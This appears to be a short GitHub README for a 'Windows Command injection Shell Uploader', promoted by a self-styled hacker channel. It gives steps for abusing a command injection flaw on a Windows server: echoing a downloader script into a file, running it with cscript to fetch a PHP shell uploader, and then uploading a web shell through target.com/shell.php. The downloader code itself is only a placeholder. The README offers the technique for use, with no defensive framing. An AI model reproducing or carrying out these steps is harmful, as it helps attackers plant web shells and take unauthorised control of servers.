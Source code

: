 # Windows Command injection Shell Uploader
Upload shell in windows server using command injection vulnerbility.

# Steps

* echo put wget.js file code here >weget.js
* cscript /nologo weget.js http://localhost/wci_shell_uploader.php

After those two commands your get shell uploader at http://target.com/shell.php go on this link & upload your shell or files.

# Video

[![Video](https://i.imgur.com/WjJJT7D.png)](https://youtu.be/H5F93uEK7ME)

Youtube  : https://www.youtube.com/DigitalHackerOfficial .
Facebook : https://www.facebook.com/DigitalHackerOfficial .
Twitter  : https://twitter.com/Shehryar_DH .
Google+  : https://plus.google.com/+DigitalHacker .
Email    : digitalhacker07@gmail.com
